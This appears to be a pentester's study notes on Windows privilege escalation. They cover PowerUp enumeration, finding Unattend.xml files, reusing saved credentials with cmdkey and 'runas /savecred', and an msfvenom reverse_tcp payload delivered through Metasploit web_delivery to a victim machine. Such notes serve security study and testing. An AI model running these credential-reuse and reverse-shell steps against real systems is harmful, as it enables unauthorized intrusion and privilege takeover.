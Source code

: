 # PrivEsc

### PowerUp

PowerUp is populor tool used in context of Windows privilege escalation.
- Part of PowerSploit framework
- Automate the process of scanning a Windows system for potential misconfigurations, vulns that could lead to privilege escalation.

**Steps**:
- Get access and get [Powersploit](https://github.com/PowerShellMafia/PowerSploit) on victim machine
- `powershell -ep bypass`
- Import module PowerSploit `Import-Module PowerSploit` or `Import-Module .\PowerSploit`
    - `Get-Command -Module PowerSploit` Get available module
- Run `Invoke-privescAudit` Check potential exploit for privilege
- `Get-UnquotedService` check for unquoted service paths which could potentially allow for privilege escalation
- `Get-ModifiableService` check for the services that the current user can modify

### Unattend installation file
- Some service can leave config file after installation (like Unattended Windows Setup)
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`

Check the system is contain those file, and extract infomation from that.

### Windows Credential Manager

Windows Credential Manager is a built in feature in Microsoft Windows that allow users to securely store and manage credential

`cmdkey` is a command line utility in Windows that interact with Windows Credential Manager. With `cmdkey` you can:
- Add Credential
- List Credential
- Delete Credential

**Steps**:
- Start `powershell` -> `cmdkey /list` ~ List save cred that we can use.
- `runas.exe /savecred /user:administrator cmd` Use save credential, no need to input password

For remote control:
- `msfvenom -p windows/x64/.../reverse_tcp ... -f exe -o shell.exe`
- Use module `web_delivery` -> Set up host and port and payload like msfvenom -> Run -> Set the powershell command
- Run powershell command on victim machine
- Upload the `shell.exe`
- Set up `multi/handler` and run `shell.exe`

### Powershell history
